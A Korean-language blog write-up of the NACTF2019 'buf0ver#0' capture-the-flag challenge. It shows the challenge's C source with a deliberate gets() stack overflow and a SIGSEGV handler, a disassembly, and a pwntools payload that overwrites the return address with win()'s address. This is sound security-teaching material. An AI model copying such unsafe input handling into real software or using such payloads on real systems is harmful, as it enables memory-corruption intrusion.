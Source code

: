 ```yaml
---
layout: post
title: "NACTF2019 buf0ver#0"
tags: [nactf2019, buffer overflow, pwntools]
---
```

처음에 그냥 아싸리 A만 입력해봤는데 바로 나옴..ㄷㄷ
![_config.yml]({{ site.baseurl }}/images/nactf2019/bufover0.png)

```
#include <stdio.h>
#include <signal.h>

void win()
{
	printf("You win!\n");
	char buf[256];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL)
	{
		puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
	}
	else
	{
		fgets(buf, sizeof(buf), f);
		printf("flag: %s\n", buf);
	}
}

void vuln()
{
	char buf[16];
	printf("Type something>");
	gets(buf);
	printf("You typed %s!\n", buf);
}

int main()
{
	/* Disable buffering on stdout */
	setvbuf(stdout, NULL, _IONBF, 0);

	/* Call win() on SIGSEGV */
	signal(SIGSEGV, win);

	vuln();
	return 0;
}

```
/* Call win() on SIGSEGV */  
	signal(SIGSEGV, win);   
이 signal함수가 segmentaion violation이 발생하면 win()를 실행하라는 뜻이다.  
그래서 단순히 입력만 많이 해주면 알아서 win()를 실행해준다.  

덤프를 보고하는 방법도 있다.
```
vuln:
 804923f:       55      pushl   %ebp
 8049240:       89 e5   movl    %esp, %ebp
 8049242:       83 ec 18        subl    $24, %esp
 8049245:       83 ec 0c        subl    $12, %esp
 8049248:       68 7c a0 04 08  pushl   $134520956
 804924d:       e8 de fd ff ff  calll   -546 <printf@plt>
 8049252:       83 c4 10        addl    $16, %esp
 8049255:       83 ec 0c        subl    $12, %esp
 8049258:       8d 45 e8        leal    -24(%ebp), %eax
 804925b:       50      pushl   %eax
 804925c:       e8 df fd ff ff  calll   -545 <gets@plt>
 8049261:       83 c4 10        addl    $16, %esp
 8049264:       83 ec 08        subl    $8, %esp
 8049267:       8d 45 e8        leal    -24(%ebp), %eax
 804926a:       50      pushl   %eax
 804926b:       68 8c a0 04 08  pushl   $134520972
 8049270:       e8 bb fd ff ff  calll   -581 <printf@plt>
 8049275:       83 c4 10        addl    $16, %esp
 8049278:       90      nop
 8049279:       c9      leave
 ```
 
 A*24 + sfp + win()주소(0x80491c2)가 정석이다.

> payload = 'A'*28  
> payload += p32(0x080491c2)


